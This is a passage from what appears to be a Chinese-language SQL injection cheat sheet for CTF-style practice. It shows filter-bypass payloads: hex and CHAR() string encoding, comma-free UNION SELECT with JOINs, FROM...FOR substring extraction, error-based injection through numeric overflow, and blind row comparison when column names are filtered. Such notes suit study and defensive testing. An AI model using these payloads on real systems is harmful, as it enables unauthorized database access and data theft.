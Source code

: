 - 十六进制

```sql
SELECT * FROM users WHERE username = 0x637466;
```
>
> - [由Three Hit聊聊二次注入](https://www.freebuf.com/articles/web/167089.html)
>
- `char()`函数

```sql
SELECT * FROM users WHERE username = CHAR(99, 116, 102);
```

## 过滤逗号

- 联表查询`JOIN`

```sql
-1 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```

- `LIMIT 1 OFFSET 0`
- `FROM x FOR y`
  - mid(user() from 1 for 1)
  - substr(user() from 1 for 1)
- `EXP`等数学运算函数

> 前提是有报错信息

```sql
select !(select*from(select user())x)-~0;
```

## 过滤字段名

过滤字段或无法知道字段名，通常可以进行连表查询和按位比较

```sql
select x.3 from (select * from (select 1)a JOIN (select 2)b JOIN (select 3)c union(select * from users))x;
```

如果表中只有 1 个字段，`SUBSTR((SELECT * FROM users LIMIT 1),1,1)='x'`
如果有多个字段，需要字段数相等

```sql
SELECT (SELECT 1,2,3) > (SELECT * FROM users LMIT 1);
```

MySQL 默认不区分大小写，可以使用二进制字符串进行比较
`SELECT CONCAT("A", CAST(0 AS JSON))`

## 过滤关键字

<div grid="~ cols-2 gap-4">
<div>
